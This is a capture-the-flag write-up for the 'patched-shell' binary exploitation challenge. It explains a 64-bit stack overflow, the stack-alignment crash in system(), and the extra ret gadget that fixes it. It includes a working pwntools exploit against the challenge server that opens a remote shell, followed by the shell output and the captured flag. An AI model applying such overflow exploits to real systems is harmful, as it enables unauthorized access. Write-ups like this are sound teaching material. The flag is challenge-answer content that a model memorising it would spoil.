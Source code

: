 # Binary Exploitation

## patched-shell

Okay, okay. So you were smart enough to do basic overflow huh...

Now try this challenge! I patched the shell function so it calls `system instead of execve`... so now your exploit shouldn't work! bwahahahahaha

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.

File: https://cdn.discordapp.com/attachments/758115188796162088/1196758922078457916/patched-shell?ex=65b8cb99&is=65a65699&hm=5795531d08ff2d5a63ea875be73ee9f2536cfa444319b1359aae42b995f9702c&

---

### Solution

![main](https://media.discordapp.net/attachments/758115188796162088/1196945018657714196/image.png?ex=65b978ea&is=65a703ea&hm=44ac90d153946f096e7e94e230d9f3bb1a07786a34742ab5c17550a27728ab2b&=&format=webp&quality=lossless&width=768&height=560)

![shell](https://media.discordapp.net/attachments/758115188796162088/1196945167123501166/image.png?ex=65b9790e&is=65a7040e&hm=fcf2f3ff8e1e3e79f8d5393d6d1f42ce93e740b280db47f2bd0404065929fd49&=&format=webp&quality=lossless&width=760&height=512)

```bash
gdb-peda$ i functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  system@plt
0x0000000000401040  gets@plt
0x0000000000401050  _start
0x0000000000401080  _dl_relocate_static_pie
0x0000000000401136  shell
0x000000000040114c  main
0x000000000040116c  _fini
```

When using the `basic-overflow chall` payload and calling `system`, SIGSEGV occurs.

![system](https://media.discordapp.net/attachments/758115188796162088/1196946262126231633/image.png?ex=65b97a13&is=65a70513&hm=fa02613d81ab45c2be780b5333f39d065ff9429e8b6e8af9b19ebf68beb0a4f7&=&format=webp&quality=lossless&width=1306&height=1056)


![sigsegv](https://media.discordapp.net/attachments/758115188796162088/1196946748359327855/image.png?ex=65b97a87&is=65a70587&hm=ee725e20b93793b43dfe2ad27e6d24472906f880a2b138b1d93526ccc40dba85&=&format=webp&quality=lossless&width=1274&height=1056)

<!--
Stopped reason: SIGSEGV
0x00007ffff7e15603 in do_system (line=0x402004 "/bin/sh") at ../sysdeps/posix/system.c:148
148	../sysdeps/posix/system.c: No such file or directory.
-->

This is because some of the 64 bit libc functions require the stack to be 16-byte aligned, the address of **$rsp should ending with 0**, when they are called.

To resolve this, I add an extra `ret (0x40101a)` in the beginning of ROP chain. When `ret` is invoked, it increments $rsp by 8.


```python
from pwn import *

# p = process('./patched-shell')
p = remote('34.134.173.142', 5000)
ret = 0x40101a
payload = b"A"*72 + p64(ret) + p64(0x0000000000401136)
p.sendline(payload)
p.interactive()

"""
[+] Opening connection to 34.134.173.142 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{patched_the_wrong_function}
"""
```

### uoftctf{patched_the_wrong_function}